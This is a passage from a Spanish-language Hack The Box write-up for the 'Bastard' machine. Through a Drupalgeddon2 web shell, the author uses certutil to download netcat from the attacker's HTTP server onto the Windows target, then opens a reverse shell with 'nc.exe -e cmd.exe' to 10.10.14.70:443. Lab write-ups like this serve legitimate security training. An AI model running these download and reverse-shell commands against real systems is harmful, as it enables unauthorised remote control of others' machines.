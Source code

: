 ```bash
Bastard
drupalgeddon2>>
```

al parecer este exploit ejecuta comandos desde una web shell hacia la terminal. Por lo tanto para obtener una reverse shell crearemos copiaremos netcat a nuestra carpeta de trabajo y crearemos un servidor web en python

```bash
Bastard # ❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

dejamos el puerto 443 en escucha con netcat

```bash
Bastard # ❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

en la maquina victima, creamos una carpeta dentro de la carpeta de temporales de windows y dentro de ella descargamos netcat

```bash
drupalgeddon2>> mkdir C:\Windows\Temp\abeljm

drupalgeddon2>> certutil -f -urlcache -split http://10.10.14.70/nc.exe C:\Windows\Temp\abeljm\nc.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
```

ahora procedemos a usar netcat para que obtener una reverse shell

```bash

drupalgeddon2>> C:\Windows\Temp\abeljm\nc.exe -e cmd.exe 10.10.14.70 443
```

obteniendo una reverse shell

![Untitled](/assets/images/2022-02-14-writeup-maquina-htb-bastard/Untitled%202.png)
